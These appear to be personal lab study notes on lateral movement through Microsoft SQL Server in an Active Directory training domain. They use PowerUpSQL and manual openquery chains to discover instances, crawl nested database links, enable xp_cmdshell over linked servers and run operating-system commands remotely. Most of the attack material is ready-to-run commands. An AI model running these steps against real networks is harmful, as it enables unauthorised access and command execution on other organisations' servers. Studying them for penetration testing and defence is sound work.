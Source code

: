 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]
###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201158.png]]


> [!NOTE] **NOTE**
> Connect to host using the `HeidiSQL` client


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201531.png]]

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands

> [!NOTE] **Note**
>  If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled like so:
> ```sql
> EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"

Run commands using crawler
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "execmaster..xp_cmdshell 'cmd /c set username'" -QueryTarget eu-sql

Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "execmaster..xp_cmdshell 'cmd /c set username'" 
```

Manual
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```


